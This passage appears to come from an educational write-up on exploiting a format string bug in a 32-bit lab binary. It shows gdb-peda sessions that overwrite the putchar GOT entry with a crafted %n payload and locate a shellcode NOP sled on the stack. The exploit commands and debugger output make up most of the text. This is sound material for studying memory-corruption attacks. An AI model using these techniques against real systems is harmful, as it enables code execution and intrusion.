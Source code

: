 ```
  $ gdb fmt
  gdb-peda$ run $(python -c 'print "\x10\xa0\x04\x08"').%4\$n
  [----------------------------------registers-----------------------------------]
  EAX: 0x5 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0x0 
  EDX: 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0xbffff698 --> 0x0 
  ESP: 0xbffff5fc --> 0x8048480 (<main+60>:   leave)
  EIP: 0x5
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0x5
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff5fc --> 0x8048480 (<main+60>:  leave)
  0004| 0xbffff600 --> 0xa ('\n')
  0008| 0xbffff604 --> 0xbffff88a --> 0x804a010 --> 0x5 
  0012| 0xbffff608 --> 0x1 
  0016| 0xbffff60c --> 0xb7ec71c9 (test   eax,eax)
  0020| 0xbffff610 --> 0x804a010 --> 0x5 
  0024| 0xbffff614 (".%4$n")
  0028| 0xbffff618 --> 0x6e ('n')
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x00000005 in ?? ()
  gdb-peda$ x/xw 0x0804a010
  0x804a010 <putchar@got.plt>:	0x00000005
  gdb-peda$ 
```
As you can see from above the program crashed and we have verified that the
value 5 has indeed been written to the address we wanted,

* We now need to know the address of our shellcode, this address can be anywhere
  in our NOP sled (the bunch of 0x90's we put at the beginning of our shellcode
  EGG environment variable)

```
  gdb-peda$ find 0x90909090 $esp $esp+2000
  Searching for '0x90909090' in range: 0xbffff5ac - 0xbffffd7c
  Found 16 results, display max 16 items:
  [stack] : 0xbffff8d8 --> 0x90909090 
  [stack] : 0xbffff8dc --> 0x90909090 
  [stack] : 0xbffff8e0 --> 0x90909090 
  [stack] : 0xbffff8e4 --> 0x90909090 
  [stack] : 0xbffff8e8 --> 0x90909090 
  [stack] : 0xbffff8ec --> 0x90909090 
  [stack] : 0xbffff8f0 --> 0x90909090 
  [stack] : 0xbffff8f4 --> 0x90909090 
  [stack] : 0xbffff8f8 --> 0x90909090 
  [stack] : 0xbffff8fc --> 0x90909090 
  [stack] : 0xbffff900 --> 0x90909090 
  [stack] : 0xbffff904 --> 0x90909090 
  [stack] : 0xbffff908 --> 0x90909090 
  [stack] : 0xbffff90c --> 0x90909090 
  [stack] : 0xbffff910 --> 0x90909090 
  [stack] : 0xbffff914 --> 0x90909090 
  
  gdb-peda$ x/20i 0xbffff910
     0xbffff910:	nop
     0xbffff911:	nop
     0xbffff912:	nop
```